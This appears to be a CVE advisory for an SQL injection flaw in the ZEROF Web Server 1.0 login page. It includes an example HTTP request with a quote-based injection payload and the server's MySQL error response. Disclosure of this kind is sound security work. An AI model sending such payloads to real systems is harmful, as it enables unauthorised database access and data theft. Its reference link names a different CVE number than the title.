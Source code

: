 # CVE-2021-30175

## Description

ZEROF Web Server 1.0 (April 2021 version) allows SQL Injection on login page. 

## Additional Information

Parameters received by the web application must be sanitized and filtered  to prevent the execution of control constructs

## Vulnerability Type

SQL Injection

## Vendor of Product
Zerof

## Affected Product Code Base

ZEROF Web Server - 1.0 (april 2021)

## Affected Component

## Attack Type

Remote

## Impact Code execution

true

## Impact Information Disclosure

true

## Discoverer

- Anna Sidorova 
- AWILLIX LLC

## Attack Vectors

Example:

```
POST /HandleEvent HTTP/1.1
Host: zerof
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 126

Ajax=1&IsEvent=1&Obj=O4F&Evt=click&this=O4F&"_fp_=_S_ID=CteTYLjmYw108029DC1&O33=%020%02%02'&O37=%020%02%02fff"&_seq_=2&_uo_=O
```

```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 209
Date: Wed, 07 Apr 2021 10:33:44 GMT
Server: ZEROF Web Server

try{_rsov_(O33,0);_rsov_(O37,0);}finally{alert("#42000You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')' at line 1.");}
```

## Reference

- https://pro.zerof.ru
- https://github.com/awillix/research/blob/main/cve/CVE-2021-30176.md

